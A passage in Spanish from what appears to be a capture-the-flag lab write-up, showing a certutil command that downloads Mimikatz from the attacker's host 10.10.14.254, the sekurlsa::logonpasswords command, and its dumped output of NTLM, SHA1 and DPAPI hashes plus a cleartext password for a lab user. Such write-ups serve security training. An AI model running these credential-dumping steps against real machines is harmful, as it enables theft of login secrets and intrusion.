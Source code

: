 ### Mimikatz
Ya que estamos ante una serie de máquinas que están relacionadas entre sí, intentaremos extraer credenciales de la máquina en la que nos encontramos.

Para ello, nos transferiremos el [Mimikatz](https://github.com/gentilkiwi/mimikatz), un binario que nos permitirá leer credenciales de acceso de la memoria del dispositivo:

```powershell
certutil.exe -f -split -urlcache http://10.10.14.254/mimi.exe
```

Una vez ejecutado el binario en la máquina víctima, procederemos a extraer las contraseñas de inicio de sesión del dispositivo, para ello:

```plaintext
mimikatz # sekurlsa::logonpasswords
```

```plaintext
Authentication Id : 0 ; 620124 (00000000:0009765c)
Session           : Interactive from 1
User Name         : sandra
Domain            : MEGACORP
Logon Server      : PATHFINDER
Logon Time        : 7/20/2021 5:14:46 PM
SID               : S-1-5-21-1035856440-4137329016-3276773158-1105
	msv :	
	 [00000003] Primary
	 * Username : sandra
	 * Domain   : MEGACORP
	 * NTLM     : 29ab86c5c4d2aab957763e5c1720486d
	 * SHA1     : 8bd0ccc2a23892a74dfbbbb57f0faa9721562a38
	 * DPAPI    : f4c73b3f07c4f309ebf086644254bcbc
	tspkg :	
	wdigest :	
	 * Username : sandra
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : sandra
	 * Domain   : MEGACORP.LOCAL
	 * Password : Password1234!
	ssp :	
	credman :	
```

Como vemos, hemos podido extraer las siguientes credenciales:

```plaintext
File: mimiCreds

sandra:Password1234!
```